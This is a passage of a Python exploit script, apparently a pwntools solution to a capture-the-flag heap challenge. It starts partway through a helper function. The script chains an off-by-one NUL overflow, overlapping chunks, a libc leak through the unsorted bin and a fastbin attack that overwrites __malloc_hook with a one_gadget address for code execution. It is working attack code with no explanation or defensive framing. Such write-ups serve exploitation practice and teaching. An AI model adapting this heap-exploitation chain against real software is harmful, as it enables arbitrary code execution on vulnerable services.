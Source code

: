```
    p.recvuntil('content: ')
    p.send(content + ('\n' if len(content) < size else ''))
    idx = chunks.index(False)
    chunks[idx] = True
    return idx

def show(idx):
    menu(2)
    p.recvuntil('index: ')
    p.sendline(str(idx))
    p.recvuntil('content: ')
    content = p.recvuntil('\n1. Alloc')[:-len('\n1. Alloc')]
    return content

def delete(idx):
    menu(3)
    p.recvuntil('index: ')
    p.sendline(str(idx))
    chunks[idx] = False

prog = log.progress('Setting up heap layout')
# layout: 0x18 (alloc) | 0x220 (free) | 0x110 (alloc)
bottom = alloc(0x18)
gap1 = alloc(0x100)
gap2 = alloc(0x100, 'A'*0xe0 + p64(0x200)) # shrunk prev_size
top = alloc(0x100)
alloc(0x18)
delete(gap1)
delete(gap2)
prog.success()

prog = log.progress('Shrinking free chunk')
delete(bottom)
# off-by-one NUL overflow into the 0x220 free chunk
alloc(0x18, 'A'*0x18)
prog.success()

prog = log.progress('Overlapping chunks')
head = alloc(0x88)
leak = alloc(0x88) # for unsorted leak
delete(alloc(0x68)) # for fastbin attack
delete(head)
delete(top)
prog.success()

prog = log.progress('Leaking libc')
alloc(0x88)
unsorted = alloc(0x88)
delete(unsorted)
libc_base = u64(show(leak).ljust(8, '\x00')) - 0x3c4b78
prog.success('@ 0x{:012x}'.format(libc_base))

prog = log.progress('Linking fake chunk')
malloc_hook = libc_base + 0x3c4b10
fake_fast_addr = malloc_hook - 27 - 8
alloc(0x100, 'A'*0x80 + 'B'*8 + p64(0x71) + p64(fake_fast_addr))
alloc(0x68)
prog.success()

prog = log.progress('Overwriting __malloc_hook')
one_gadget = libc_base + 0x4526a
alloc(0x68, 'A'*19 + p64(one_gadget))
prog.success()
```